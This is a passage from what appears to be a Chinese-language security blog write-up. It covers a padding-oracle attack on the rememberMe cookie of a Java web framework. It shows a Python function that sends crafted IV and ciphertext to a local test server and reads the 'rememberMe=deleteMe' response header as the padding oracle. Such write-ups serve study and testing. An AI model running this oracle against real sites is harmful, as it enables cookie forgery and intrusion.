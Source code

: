 	![Pasted image 20241204103227.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241204103227.png)
	
3. 通过在本地解密，验证了该思路的可行性，现在将攻击脚本的自定义解密函数改为通过HTTP响应头来判断填充正确还是失误

    ```python
    def decrypt_by_http(ciphertext, iv):  
        remember_me = base64.b64encode(iv + ciphertext).decode('utf-8')  
        url = 'http://127.0.0.1:8090/'  
        headers = {'Cookie': f'rememberMe={remember_me}'}  
        response = requests.get(url, headers=headers)  
        if 'rememberMe=deleteMe' in response.headers.get('Set-Cookie'):  
            raise ValueError('BadPadding')
    ```

    调试一下，获取Cookie最后32个字节，前16个字节作为初始向量，后16个字节作为密文，发送给服务器，观察响应
